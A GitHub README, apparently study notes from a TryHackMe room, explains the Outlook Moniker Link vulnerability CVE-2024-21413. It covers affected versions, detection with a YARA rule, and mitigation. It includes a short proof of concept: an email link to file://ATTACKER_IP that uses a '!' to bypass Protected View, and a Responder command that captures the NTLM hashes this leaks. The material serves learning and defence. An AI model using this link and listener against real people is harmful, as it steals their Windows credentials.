# 📧 CVE-2024-21413 - Microsoft Outlook Moniker Link Vulnerability

## 🗓️ Disclosure

- **Date**: February 13, 2024  
- **CVE**: [CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413)  
- **Discovered By**: Haifei Li (Check Point Research)

## 🚨 Summary

A critical vulnerability in Microsoft Outlook allows attackers to exploit **Moniker Links**, leading to **NTLM credential leakage** and potentially **Remote Code Execution (RCE)**. This bypasses Outlook’s Protected View and security prompts.

---

## 🔍 What is a Moniker Link?

Moniker Links are not traditional URLs like `http://`. They use Microsoft’s **Component Object Model (COM)** and can:

- Access local files or remote network shares
- Bind to and execute COM objects
- Trigger high-privilege actions

Outlook fails to properly handle these links, which can result in:

- Automatic NTLM authentication to attacker-controlled SMB servers
- Leakage of Windows **netNTLMv2** hashes
- Potential RCE using COM-based payloads

---

## 📊 Vulnerability Overview

| Field                  | Detail                                                              |
|------------------------|---------------------------------------------------------------------|
| CVE                    | [CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413) |
| Impact                 | Remote Code Execution, Credential Theft                            |
| Severity               | Critical (CVSS 9.8)                                                 |
| Attack Complexity      | Low                                                                 |
| Discovered By          | Haifei Li, Check Point Research                                     |

---

## 🖥️ Affected Software Versions

| Microsoft Office Version         | Affected From Version              |
|----------------------------------|------------------------------------|
| Microsoft Office LTSC 2021       | 19.0.0                             |
| Microsoft 365 Apps for Enterprise| 16.0.1                             |
| Microsoft Office 2019            | 16.0.1                             |
| Microsoft Office 2016            | < 16.0.5435.1001                   |

---

## ⚙️ Technical Context

### COM & Moniker Links

- COM: Microsoft's Component Object Model used for object interaction.
- Monikers: COM-based “intelligent names” that bind to objects or files.
- `file://` links in HTML emails can invoke these Monikers.

### Bypass Technique

- A Moniker Link like:

  ```html
  <a href="file://ATTACKER_IP/test!exploit">Click me</a>
  ```

  uses a special character (`!`) to bypass Protected View, forcing Outlook to initiate an SMB connection to the attacker’s server—sending NTLM hashes.

---

## 🧪 Proof-of-Concept (PoC)

### Email Exploit Script

A Python PoC sends an HTML email with a crafted Moniker Link:

```python
html_content = '''
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_IP/test!exploit">Click me</a></p>
</html>
'''
```

### Responder SMB Listener

```bash
responder -I ens5
```

### Outcome

- Victim opens Outlook
- Clicks the "Click me" link
- Responder captures the **netNTLMv2** hash from the SMB authentication attempt

---

## 🔎 Detection

### 🧪 YARA Rule (by Florian Roth)

```yara
rule EXPL_CVE_2024_21413_Microsoft_Outlook_RCE_Feb24 {
    meta:
        description = "Detects CVE-2024-21413 exploitation attempts"
        author = "X__Junior, Florian Roth"
        reference = "https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/"
        date = "2024-02-17"
        modified = "2024-02-19"
        score = 75

    strings:
        $a1 = "Subject: "
        $a2 = "Received: "
        $xr1 = /file:\/\/\/\\[^"']{6,600}\.(docx|txt|pdf|...)!/

    condition:
        filesize < 1000KB
        and all of ($a*)
        and 1 of ($xr*)
}
```

### Wireshark

- SMB request and **netNTLMv2 hash** can be captured in packet traces.

---

## 🛡️ Mitigation & Remediation

- ✅ **Update Microsoft Outlook** immediately via Windows Update or Microsoft Update Catalog
- 🚫 **No configuration workaround** exists to disable Moniker handling in Outlook
- 🔐 Consider disabling automatic NTLM authentication where feasible
- 🔥 Blocking outbound SMB (port 445) on firewalls can help mitigate credential theft

---

## 🔐 Security Best Practices

- Do **not click** unknown or suspicious links
- **Preview** links before clicking
- **Forward** suspicious emails to your IT or cybersecurity team
- Monitor systems for signs of unusual SMB or NTLM traffic

---

## 🧾 Key Terms

| Term        | Definition                                       |
|-------------|--------------------------------------------------|
| **COM**     | Component Object Model — Windows object system   |
| **Moniker** | A COM-based reference to link or bind to objects |
| **NTLM**    | Windows authentication protocol                  |
| **RCE**     | Remote Code Execution                            |

---

## 🧠 Trivia & Questions

- 🔧 **Tool used to capture hashes**: `responder`
- 🔑 **Hash type captured**: `netNTLMv2`

> ---

<sub>🔗 References & Resources:</sub>
- <sub>TryHackMe — Moniker Link | Cyber Security 101 (THM) [TryHackMe](https://tryhackme.com/room/monikerlink)</sub>
- <sub>Wanna read more about [Moniker Link](https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/)</sub>
- <sub>Access [CVE Records](https://www.cve.org/CVERecord?id=CVE-2024-21413)</sub>


